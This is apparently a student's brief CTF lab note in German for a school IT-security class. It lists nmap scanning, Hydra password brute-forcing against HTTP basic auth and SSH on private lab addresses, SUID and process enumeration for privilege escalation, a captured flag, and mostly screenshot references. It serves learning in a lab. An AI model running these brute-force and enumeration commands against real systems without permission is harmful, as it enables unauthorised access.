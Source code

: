 ```yaml
---
tags:
  - 3te_Klasse
  - itsi
---
```

`nmap 192.168.56.0/24`
mit allen ports
-T4 damit keine firewallfaxen
![[Pasted image 20250117175643.png]]
![[Pasted image 20250117175813.png]]
![[Pasted image 20250117175921.png]]
![[Pasted image 20250117180005.png]]
![[Pasted image 20250117180023.png]]
![[Pasted image 20250117180037.png]]
![[Pasted image 20250117180113.png]]
![[Pasted image 20250117180209.png]]
![[Pasted image 20250117180747.png]]
![[Pasted image 20250117180729.png]]
![[Pasted image 20250117181656.png]]
python file für proof zeigen
github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
https://tylerrockwell.github.io/defeating-basic-auth-with-hydra/
`hydra -l user -P pw.txt -s 55487 -f 192.168.15.3 http-get /`
![[Pasted image 20250117182116.png]]
![[Pasted image 20250117182208.png]]
`FLAG{use_secure_credentials}`
![[Pasted image 20250117183032.png]]
![[Pasted image 20250117183014.png]]
![[Pasted image 20250117183153.png]]
![[Pasted image 20250117183736.png]]
`ls -R *`
![[Pasted image 20250117190434.png]]
![[Pasted image 20250117191517.png]]
![[Pasted image 20250117191545.png]]
`hydra -l GrumpyCat -P pw.txt 192.168.15.3 ssh -t 4`
`find -perm -4000 2> /dev/null`
![[Pasted image 20250117195129.png]]
`cat /proc/741/cmdline`
`find -name "ctf_server.py" 2> /dev/null`
![[Pasted image 20250117202527.png]]
https://medium.com/techiepedia/series-of-ctf-machines-walkthrough-4-linux-privilege-escalation-enumeration-247899027be

